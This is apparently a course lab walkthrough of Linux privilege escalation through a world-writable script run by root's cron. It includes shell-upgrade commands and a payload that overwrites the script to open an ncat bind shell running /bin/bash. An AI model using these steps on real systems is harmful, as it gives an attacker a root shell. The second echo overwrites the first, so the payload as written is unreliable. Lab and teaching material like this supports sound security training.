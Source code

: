 # Privilege Escalation

## Scenario

1. Bad Permission Settings

The victim machine runs a simple python script which performs backup of files (simulated). The script is misconfigured with additional privileges.

**Content of `update.py`**

``` python
import datetime
f = open("update.txt","w+")
f.write("This file is updated at " + str(datetime.datetime.now()) + ".\n")
f.close()
```

For convenience sake, he modified the permissions of the update.py to 777 which allows anyone and everyone to READ/WRITE/EXECUTE the file.

2. Misconfiguring cron job 

The victim has configured the python script to be invoked every 1 minute.

``` bash
vim /etc/crontab
# Add the following line
# */1 * * * * root python3 /root/Desktop/hackwagon/week-4/update.py
```

## Execution

1. Checking for potential misconfigurations

The attacker has a limited shell through OS injection from one of Shopedia's API endpoint.

``` bash
# Upgrade shell
python -c 'import pty; pty.spawn("/bin/bash")'  

# Adhering to one of the more popular linux privilege escalation guides
# https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
# The attacker check for various misconfigurations in cron jobs
cat /etc/crontab
# */1 * * * * root python3 /root/Desktop/hackwagon/week-4/update.py
# There is one particular cron job that is invoked as root evert minute.
```

2. Invesigating file permissions for the misconfigured cron job

``` bash
# Read the file content of the invoked file
cat /root/Desktop/hackwagon/week-4/update.py

# Check the file permission
ls -la /root/Desktop/hackwagon/week-4/update.py
# -rwxrwxrwx 1 root root 129 Mar 26 00:12 /root/Desktop/hackwagon/week-4/update.py
# File is found to be world writable
```

3. Privilege escalation via misconfigured cron job

Since the invoked file is executed as root (superuser) and it is world writable, the attacker can modify the file to execute instructions of his/her choosing. The modified file will be executed as root every minute!

``` bash
echo 'import subprocess' > /root/Desktop/hackwagon/week-4/update.py
echo 'subprocess.run(["/usr/bin/ncat", "-nlvp", "8000", "-e", "/bin/bash"])' > /root/Desktop/hackwagon/week-4/update.py

# Wait for the next minute
# From the attacking machine, connect to the bind shell that is opened on the victim's machine.
```